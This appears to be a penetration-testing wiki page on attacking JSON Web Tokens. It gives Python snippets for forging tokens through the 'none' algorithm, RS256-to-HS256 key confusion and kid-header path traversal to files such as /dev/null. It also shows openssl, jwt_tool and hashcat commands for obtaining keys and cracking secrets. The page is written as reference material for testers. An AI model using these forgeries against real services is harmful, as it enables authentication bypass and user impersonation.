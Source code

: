 ```yaml
---
authors: ShutdownRepo
category: web
---
```


# Insecure JSON Web Tokens

## Theory

Some web applications rely on JSON Web Tokens (JWTs) for stateless authentication and access control instead of stateful ones with traditional session cookies. Some implementations are insecure and allow attackers to bypass controls, impersonate users, or retrieve secrets.

## Practice

Testers need to find if, and where, the tokens are used. A JWT is a base64 string of at least 100 characters, made of three parts (header, payload, signature) separated by dot, and usually located in `Authorization` headers with the `Bearer` keyword. See the the following example.

```
Authorization: Bearer eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]
```

Once the tokens are found, testers need to assess their implementation's security by attempting some known attacks and flaws.

### Sensitive data

JWTs are just base64 encoded data. They may contain sensitive unencrypted information.

### Signature attack - None algorithm

Testers need to decode the token, change the algorithm to `None` (or `none`, `NONE`, `nOnE`) in the header, remove the signature, and send the modified token. Some applications are vulnerable to this attack since some support a None algorithm for signature.

This can be done in Python.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
new_token = jwt.encode(old_token_payload, key='', algorithm=None)
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

```python
import jwt
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key='', algorithm=None)
print(token)
```

### Signature attack - RS256 to HS256

If the algorithm used to sign the payload is RS256, testers can try to use HS256 instead. Instead of signing the JWT payload with a private key, using HS256 will make the web app sign it with a public key that can sometimes be easily obtained.

> [!TIP]
> Some applications re-use their TLS certificate for JWT operations. The TLS certificate's public key used by a server can be obtained with the following command.
> 
> ```bash
> echo | openssl s_client -connect $TARGET:443 | openssl x509 -pubkey -noout > pubkey.pem
> ```

The following Python code can be used to identify if the web application is vulnerable to this attack.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
public_key = open('pubkey.pem', 'r').read()
new_token = jwt.encode(old_token_payload, key=public_key, algorithm='HS256')
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

> [!WARNING]
> The jwt library imported in the following Python code raises an exception when attempting to use an asymmetric key or x509 certificate as an HMAC secret. Testers need to install version 0.4.3 `pip/pip3 install pyjwt==0.4.3`.

```python
import jwt
public_key = open('pubkey.pem', 'r').read()
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key=public_key, algorithm='HS256')
print(token)
```

### Signature attack - KID header path traversal

The [kid](https://www.rfc-editor.org/rfc/rfc7515#section-4.1.4) (Key ID) is an optional parameter specified in the JWT header part to indicate the key used for signature validation in case there are multiple ones.

The structure of this ID is not specified and it can be any string value (case-sensitive).

The last part is interesting because, if the parameter is vulnerable to [directory traversal](directory-traversal.md), this would allow to perform path traversal and point to a file `path/file` with content we can guess or known somehow, and use its content as the value of the signing key.

> [!TIP]
> "[JWT authentication bypass via kid header path traversal](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)" PortSwigger lab provides more insight on this technique.

> [!TIP]
> > There are a bunch of files in /sys that are basically flags. Like the flag that says if ftrace is enabled is either 0 or 1. So the attacker just creates 2 tokens with that as the key and one of them will work!
> >
> > _(By_ [_Intigriti_](https://twitter.com/intigriti) _on_ [_Twitter_](https://twitter.com/intigriti/status/1618653959752925184)_)_
> 
> The example mentioned above is located at `/proc/sys/kernel/ftrace_enabled`

> [!TIP]
> In some cases, using the trick above will not work, as the file is listed with a size of 0, and some apps could check that the signature file is not empty.
> 
> ```python
> >>> import os
> >>> os.path.getsize("/proc/sys/kernel/ftrace_enabled")
> 0
> ```
> 
> Alternatively, other file could be used:
> 
> * some have a content that rarely changes (e.g. old configuration files like`/etc/host.conf`, `/etc/xattr.conf`, ...)
> * some have a predictable content (e.g. `/etc/hostname`, JS files in `/var/www/html`, ...)
> * some return an empty string (e.g. `/dev/null`) effectively allowing to bypass the signature validation, meaning an empty key could be used for signature.


```python
import jwt, os
payload = {'key1':'value1', 'key2':'value2'}
with open("path/to/file", 'r') as file:
    data = file.read()
token = jwt.encode(payload, key=data, algorithm='HS256', headers={"kid": "../../../path/to/file"})
print(token)
```


> [!TIP]
> If Burp is used to craft the JWT token, a symmetric key with value of the `k` property in the JWT equal to `AA==` (base64 value of null byte) must be created.
> 
> The same secret value is to be used on [jwt.io](https://jwt.io/).

### Cracking the secret

When JWT uses `HMAC-SHA256`/`384`/`512` algorithms to sign the payload, testers can try to find the secret if weak enough.

[JWT tool](https://github.com/ticarpi/jwt_tool) (Python3) can be used for this purpose.


```bash
# crack the secret using dictionnary attack
jwt_tool.py -v -C -d $wordlist_file "$JWT_value"

# use the secret to tapmer (-T option) the token
# running this command will show up a menu to choose the value to tamper
# the result token will be signed with the submited secret using the specified singing algorithm "alg" (hs256/hs384/hs512 = HMAC-SHA signing).
jwt_tool.py -v -S $alg -p "$secret" -T "$JWT_value"
```


JWT secrets can also be cracked using hashcat (see the [AD credential cracking](../../ad/movement/credentials/cracking.md) page for more detailed info on how to use it).

```bash
hashcat --hash-type 16500 --attack-mode 0 $JWTs_file $wordlist_file
```

### Recovering the public key

In certain scenarios, public keys can be recovered when knowing one (for algos `ES256`, `ES384`, `ES512`) or two (for algos `RS256`, `RS384`, `RS512`) tokens.

This can be achieved with the following Python script : [JWT-Key-Recover](https://github.com/FlorianPicca/JWT-Key-Recovery)

## Resources

[https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/](https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/)

[https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

[https://blog.imaginea.com/stateless-authentication-using-jwt-2/](https://blog.imaginea.com/stateless-authentication-using-jwt-2/)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token)

[https://jwt.io/](https://jwt.io/)

[https://portswigger.net/web-security/jwt](https://portswigger.net/web-security/jwt)

[https://systemweakness.com/deep-dive-into-jwt-attacks-efc607858af6](https://systemweakness.com/deep-dive-into-jwt-attacks-efc607858af6)
